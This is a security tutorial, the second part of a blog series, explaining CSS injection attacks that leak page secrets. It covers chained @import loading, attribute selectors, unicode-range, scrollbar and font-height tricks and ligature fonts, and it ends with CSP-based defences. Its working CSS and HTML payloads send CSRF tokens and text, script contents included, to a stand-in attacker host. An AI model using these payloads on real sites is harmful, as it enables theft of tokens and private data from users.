

# CSS Injection: Attacking with CSS Alone (Part 2)

In the previous post, we learned about the basic principles of CSS data theft and demonstrated it using HackMD as a practical example, successfully stealing the CSRF token. In this post, we will delve into some details of CSS injection and address the following questions:

1. Since HackMD can load new styles without refreshing the page, how can we steal characters beyond the first one on other websites?
2. If we can only steal one character at a time, would it take a long time? Is this feasible in practice?
3. Is it possible to steal things other than attributes? For example, text content on the page or even JavaScript code?
4. What are the defense mechanisms against this attack technique?

## Stealing All Characters

In the previous part, we mentioned that the data we want to steal may change upon refreshing (e.g., CSRF token), so we need to load new styles without refreshing the page.

The reason why we were able to do this in the previous post is that HackMD itself is a service that boasts real-time updates. But what about regular web pages? How can we dynamically load new styles without using JavaScript?

Regarding this issue, Pepe Vila provided an answer in his presentation [CSS Injection Attacks](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf) shared in 2019: [@import](https://developer.mozilla.org/en-US/docs/Web/CSS/@import).

In CSS, you can use `@import` to import external styles, similar to JavaScript's `import`.

You can utilize this feature to create a loop for importing styles, as shown in the code snippet below:

``` css
@import url(https://myserver.com/start?len=8)
```

Then, the server responds with the following style:

``` css
@import url(https://myserver.com/payload?len=1)
@import url(https://myserver.com/payload?len=2)
@import url(https://myserver.com/payload?len=3)
@import url(https://myserver.com/payload?len=4)
@import url(https://myserver.com/payload?len=5)
@import url(https://myserver.com/payload?len=6)
@import url(https://myserver.com/payload?len=7)
@import url(https://myserver.com/payload?len=8)
```

Here's the key: although we import 8 at once, "the server will hang for the next 7 requests and not provide a response." Only the first URL `https://myserver.com/payload?len=1` will return a response, which contains the previously mentioned data theft payload:

``` css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://b.myserver.com/leak?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://b.myserver.com/leak?q=z)
}
```

When the browser receives the response, it will load the CSS snippet above. After loading, the elements that meet the conditions will send requests to the backend. Let's assume the first character is 'd.' Then, at this point, the server responds with the content of `https://myserver.com/payload?len=2`:

``` css
input[name="secret"][value^="da"] {
  background: url(https://b.myserver.com/leak?q=da)
}

input[name="secret"][value^="db"] {
  background: url(https://b.myserver.com/leak?q=db)
}

input[name="secret"][value^="dc"] {
  background: url(https://b.myserver.com/leak?q=dc)
}

//....

input[name="secret"][value^="dz"] {
  background: url(https://b.myserver.com/leak?q=dz)
}
```

This process continues, repeating these steps, allowing us to send all characters to the server. This relies on the fact that `import` will load already downloaded resources first and then wait for the ones that haven't been downloaded yet.

One important thing to note here is that you'll notice we load styles from the domain `myserver.com`, while the background image's domain is `b.myserver.com`. This is because browsers usually have limitations on the number of requests they can simultaneously load from a single domain. So, if you use only `myserver.com`, you'll find that the requests for background images won't go through as they are blocked by CSS imports.

Therefore, it's necessary to set up two domains to avoid this situation.

Apart from that, the above method doesn't work in Firefox. Even if the response for the first request arrives, Firefox won't immediately update the style. It waits for all requests to complete before updating. For a solution, you can refer to this article by Michał Bentkowski (does the name sound familiar?): [CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/). Remove the first import step and wrap each character's import in additional styles, like this:

``` html
<style>@import url(https://myserver.com/payload?len=1)</style>
<style>@import url(https://myserver.com/payload?len=2)</style>
<style>@import url(https://myserver.com/payload?len=3)</style>
<style>@import url(https://myserver.com/payload?len=4)</style>
<style>@import url(https://myserver.com/payload?len=5)</style>
<style>@import url(https://myserver.com/payload?len=6)</style>
<style>@import url(https://myserver.com/payload?len=7)</style>
<style>@import url(https://myserver.com/payload?len=8)</style>
```

This approach works fine in Chrome as well, so by adopting it, you can support both browsers simultaneously.

In summary, by using the `@import` CSS feature, we can achieve "loading new styles dynamically without reloading the page" and thereby steal each character one by one.

## Stealing one character at a time, too slow?

If we want to execute this type of attack in the real world, we may need to improve efficiency. Taking HackMD as an example, the CSRF token consists of 36 characters, so we would need to send 36 requests, which is quite a lot.

In fact, we can steal two characters at a time because, as mentioned in the previous section, besides the prefix selector, there is also a suffix selector. So we can do it like this:

``` css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

// ...
input[name="secret"][value$="a"] {
  border-background: url(https://b.myserver2.com/suffix?q=a)
}

input[name="secret"][value$="b"] {
  border-background: url(https://b.myserver2.com/suffix?q=b)
}
```

In addition to stealing the prefix, we can also steal the suffix, effectively doubling the efficiency. It is important to note that the CSS for the prefix and suffix uses different properties, one using `background` and the other using `border-background`. This is because if we use the same property, the content will be overwritten by others, resulting in only one request being sent.

If there are not many possible characters in the content, for example, 16 characters, we can directly steal two prefixes and two suffixes at a time. The total number of CSS rules would be `16*16*2` = 512, which should still be within an acceptable range and would further accelerate the process by two times.

In addition to these methods, we can also improve on the server side. For example, using HTTP/2 or even HTTP/3 could potentially speed up the loading of requests and improve efficiency.

## Stealing other things

Besides stealing properties, is there a way to steal other things? For example, other text on the page or even the code inside scripts?

Based on the principles discussed in the previous section, it is not possible. The ability to steal properties is due to the "attribute selector," which allows us to select specific elements. However, in CSS, there is no selector that can select the "content" itself.

Therefore, we need a deeper understanding of CSS and the styles on the webpage to accomplish this seemingly impossible task.

### unicode-range

In CSS, there is a property called "unicode-range" that allows us to load different fonts for different characters. Here is an example taken from [MDN](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face/unicode-range):

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "Ampersand";
        src: local("Times New Roman");
        unicode-range: U+26;
      }

      div {
        font-size: 4em;
        font-family: Ampersand, Helvetica, sans-serif;
      }
    </style>
    <div>Me & You = Us</div>
  </body>
</html>

```

The unicode for `&` is `U+0026`, so only the character `&` will be displayed in a different font, while the rest will use the same font.

Front-end developers may have used this technique before, for example, to display English and Chinese using different fonts. This technique can also be used to steal text on the page, like this:

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "f1";
        src: url(https://myserver.com?q=1);
        unicode-range: U+31;
      }

      @font-face {
        font-family: "f2";
        src: url(https://myserver.com?q=2);
        unicode-range: U+32;
      }

      @font-face {
        font-family: "f3";
        src: url(https://myserver.com?q=3);
        unicode-range: U+33;
      }

      @font-face {
        font-family: "fa";
        src: url(https://myserver.com?q=a);
        unicode-range: U+61;
      }

      @font-face {
        font-family: "fb";
        src: url(https://myserver.com?q=b);
        unicode-range: U+62;
      }

      @font-face {
        font-family: "fc";
        src: url(https://myserver.com?q=c);
        unicode-range: U+63;
      }

      div {
        font-size: 4em;
        font-family: f1, f2, f3, fa, fb, fc;
      }
    </style>
    Secret: <div>ca31a</div>
  </body>
</html>
```

If you check the network tab, you will see a total of 4 requests being sent:


By using this technique, we can determine that there are four characters on the page: 13ac.

However, this technique has its limitations:

1. We do not know the order of the characters.
2. We do not know if there are any duplicate characters.

But thinking about how to steal characters from the perspective of "loading fonts" has provided many people with a new way of thinking and has led to the development of various other methods.

### Font height difference + first-line + scrollbar

This technique aims to solve the problem encountered in the previous technique: "not knowing the order of the characters." It combines many details and involves multiple steps, so please listen carefully.

Firstly, we can actually leak characters using built-in fonts without loading external fonts. How can we do this? We need to find two sets of built-in fonts with different heights.

For example, there is a font called "Comic Sans MS" that has a greater height than another font called "Courier New."

For example, let's assume the default font height is 30px, and Comic Sans MS is 45px. Now, if we set the height of the text container to 40px and load the font, like this:

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 30px;
        height: 40px;
        width: 100px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }
      
    </style>
    Secret: <div>DBC</div>
    <div>ABC</div>
  </body>
</html>
```

We will see a difference on the screen:



It is clear that the character A has a greater height than the other characters. According to our CSS settings, if the content height exceeds the container height, a scrollbar will appear. Although it may not be visible in the screenshot above, the ABC below has a scrollbar, while the DBC above does not.

Furthermore, we can set an external background for the scrollbar:

``` css
div::-webkit-scrollbar {
    background: blue;
}

div::-webkit-scrollbar:vertical {
    background: url(https://myserver.com?q=a);
}
```

This means that if the scrollbar appears, our server will receive a request. If the scrollbar does not appear, no request will be received.

Furthermore, when I apply the `fa` font to the div, if the character A appears on the screen, a scrollbar will appear, and the server will receive a request. If the character A does not appear on the screen, nothing will happen.

Therefore, if we repeatedly load different fonts, the server can know what characters are displayed on the screen, which is similar to what we achieved using `unicode-range`.

So how do we solve the order problem?

We can first reduce the width of the div to only display one character, so other characters will be placed on the second line. Then, we can use the [::first-line](https://developer.mozilla.org/en-US/docs/Web/CSS/::first-line) selector to adjust the style specifically for the first line, like this:

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 0px;
        height: 40px;
        width: 20px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }

      div::first-line{
        font-size: 30px;
      }

    </style>
    Secret: <div>CBAD</div>
  </body>
</html>
```

On the screen, only the character "C" will be visible. This is because we set the font size of all characters to 0 using `font-size: 0px`, and then adjust the font size of the first line to 30px using `div::first-line`. In other words, only the characters in the first line can be seen, and now the width of the div is only 20px, so only the first character will appear.

Next, we can use the trick we just learned to load different fonts. When I load the font "fa", since the character "A" does not appear on the screen, there will be no change. But when I load the font "fc", since the character "C" appears on the screen, it will be displayed using Comic Sans MS, which will increase the height and cause the scrollbar to appear. We can then use it to send a request, like this:

``` css
div {
  font-size: 0px;
  height: 40px;
  width: 20px;
  font-family: fc, "Courier New";
  letter-spacing: 0px;
  word-break: break-all;
  overflow-y: auto;
  overflow-x: hidden;
  --leak: url(http://myserver.com?C);
}

div::first-line{
  font-size: 30px;
}

div::-webkit-scrollbar {
  background: blue;
}

div::-webkit-scrollbar:vertical {
  background: var(--leak);
}
```

So how do we keep using new font families? We can achieve this using CSS animation. You can continuously load different font families and specify different `--leak` variables using CSS animation.

In this way, we can know what the first character on the screen is.

Once we know the first character, we can increase the width of the div, for example, to 40px, so that it can accommodate two characters. Therefore, the first line will be the first two characters. Then, we can load different font families in the same way to leak the second character. The detailed process is as follows:

1. Assume that the characters on the screen are "ACB".
2. Adjust the width to 20px, and only the first character "A" will appear on the first line.
3. Load the font "fa", so "A" will be displayed with a larger font size, causing the scrollbar to appear. Load the scrollbar background and send a request to the server.
4. Load the font "fb", but since "B" does not appear on the screen, there will be no change.
5. Load the font "fc", but since "C" does not appear on the screen, there will be no change.
6. Adjust the width to 40px, and the first line will display the first two characters "AC".
7. Load the font "fa" again, so "A" will be displayed with a larger font size, causing the scrollbar to appear. At this point, the background has already been loaded, so no new request will be sent.
8. Load the font "fb", "B" will be displayed with a larger font size, causing the scrollbar to appear. Load the scrollbar background.
9. Load the font "fc", "C" will be displayed with a larger font size, but since the same background has already been loaded, no request will be sent.
10. Adjust the width to 60px, and all three characters "ACB" will appear on the first line.
11. Load the font "fa" again, same as step 7.
12. Load the font "fb", "B" will be displayed with a larger font size, causing the scrollbar to appear. Load the scrollbar background.
13. Load the font "fc" again, "C" will be displayed with a larger font size, but since the same background has already been loaded, no request will be sent.
14. End.

From the above process, we can see that the server will receive three requests in the order of A, C, B, which represents the order of the characters on the screen. Changing the width and font-family continuously can be achieved using CSS animation.

If you want to see the complete demo, you can visit this webpage (source: [What can we do with single CSS injection?](https://www.reddit.com/r/Slackers/comments/dzrx2s/what_can_we_do_with_single_css_injection/)): https://demo.vwzq.net/css2.html

Although this solution solves the problem of "not knowing the order of characters", it still cannot solve the problem of duplicate characters, because duplicate characters will not trigger new requests.

### Ultimate Move: ligature + scrollbar

To cut to the chase, this move can solve all the problems mentioned above and achieve the goal of "knowing the order of characters and knowing duplicate characters", allowing us to steal the complete text.

Before understanding how to do it, we need to know a term called ligature. In some fonts, certain combinations of characters are rendered as connected shapes, as shown in the image below (source: [wikipedia](https://en.wikipedia.org/wiki/Ligature_(writing))):


So how does this help us?

We can create a unique font ourselves, where we set `ab` as a ligature and render it as an extremely wide element. Then, we set the width of a certain div to a fixed value and combine it with the scrollbar trick we mentioned earlier: "If "ab" appears, it will become very wide, causing the scrollbar to appear, and we can load a request to tell the server; if it doesn't appear, the scrollbar will not appear, and nothing will happen."

The process is as follows, assuming there are the characters "acc" on the screen:

1. Load a font with ligature "aa", nothing happens.
2. Load a font with ligature "ab", nothing happens.
3. Load a font with ligature "ac", successfully render an oversized screen, scrollbar appears, load server images.
4. Server knows that "ac" is on the screen.
5. Load a font with ligature "aca", nothing happens.
6. Load a font with ligature "acb", nothing happens.
7. Load a font with ligature "acc", successfully render, scrollbar appears, send the result to the server.
8. Server knows that "acc" is on the screen.

By combining ligatures with a scrollbar, we can slowly leak out all the characters on the screen, even JavaScript code!

Did you know that the contents of a script can be displayed on the screen?

``` css
head, script {
  display: block;
}
```

By adding this CSS, the contents of the script can be displayed on the screen, so we can also use the same technique to steal the contents of the script!

In practice, you can use SVG with other tools to quickly generate fonts on the server. If you want to see the details and related code, you can refer to Michał Bentkowski's article: [Stealing Data in Great style – How to Use CSS to Attack Web Application.](https://research.securitum.com/stealing-data-in-great-style-how-to-use-css-to-attack-web-application/)

Masato Kinugawa has also created a Safari version of the demo. Since Safari supports SVG fonts, there is no need to generate fonts from the server. The original article is here: [Data Exfiltration via CSS + SVG Font - PoC (Safari only)](https://github.com/masatokinugawa/css-exfiltration-svg-font/)

Here, I will simply create a simplified demo to demonstrate that this is possible.

``` html
<!DOCTYPE html>
<html lang="en">
<body>
  <script>
    var secret = "abc123"
  </script>
  <hr>
  <script>
    var secret2 = "cba321"
  </script>
  <svg>
    <defs>
    <font horiz-adv-x="0">
      <font-face font-family="hack" units-per-em="1000" />
        <glyph unicode='"a' horiz-adv-x="99999" d="M1 0z"/>
      </font>
    </defs>
  </svg>
  <style>
    script {
      display: block;
      font-family:"hack";
      white-space:n owrap;
      overflow-x: auto;
      width: 500px;
      background:lightblue;
    }

    script::-webkit-scrollbar {
      background: blue;
    }

  </style>
</body>
</html>
```

I have added two sections of JavaScript code in the script. The contents are `var secret = "abc123"` and `var secret2 = "cba321"`. Then, using CSS, I load the prepared font. Whenever there is a ligature with `"a`, the width becomes oversized.

Next, if the scrollbar appears, I set the background to blue for better visibility. The final result is as follows:


Above, because the content is `var secret = "abc123"`, it matches the ligature `"a`, so the width becomes wider and the scrollbar appears.

Below, because there is no `"a`, the scrollbar does not appear (the places with "a" are missing characters, which should be related to not defining other glyphs, but it does not affect the result).

By changing the background of the scrollbar to a URL, we can know the leaked result from the server.

If you want to see the actual demo and the server-side implementation, you can refer to the two articles mentioned above.

## Defense Measures

Finally, let's talk about defense measures. The simplest and most straightforward way is to simply disable the use of styles, which will basically eliminate the problem of CSS injection (unless there are vulnerabilities in the implementation).

If you really want to allow styles, you can also use CSP to block the loading of certain resources. For example, `font-src` does not need to be fully open, and `style-src` can also be set to an allow list to block the `@import` syntax.

Furthermore, you can also consider what would happen if things on the page were taken away. For example, if the CSRF token is taken, the worst-case scenario is CSRF. At this time, you can implement more protection to block CSRF, even if the attacker obtains the CSRF token, they cannot perform CSRF (for example, by checking the origin header).

## Conclusion

CSS is truly vast and profound. I really admire how these predecessors can play with CSS in so many ways and develop so many eye-opening attack techniques. When I was researching, I could understand using attribute selectors to leak information, and I could also understand using `unicode-range`. However, it took me quite some time to understand what was going on with the one that used text height and CSS animation to change, and although the concept of ligatures is easy to understand, I still encountered many problems when implementing it.

These two articles mainly introduce the CSS injection attack technique, so there is not much actual code. These attack techniques are all referenced from the articles of the predecessors, and I will list them below. If you are interested, you can read the original articles, which will provide more detailed explanations.

Reference:

1. [CSS Injection Attacks](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)
2. [CSS Injection Primitives](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/)
3. [HackTricks - CSS Injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection)
4. [Stealing Data in Great style – How to Use CSS to Attack Web Application.](https://research.securitum.com/stealing-data-in-great-style-how-to-use-css-to-attack-web-application/)
5. [Data Exfiltration via CSS + SVG Font](https://mksben.l0.cm/2021/11/css-exfiltration-svg-font.html)
6. [Data Exfiltration via CSS + SVG Font - PoC (Safari only)](https://github.com/masatokinugawa/css-exfiltration-svg-font/)
7. [CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/)
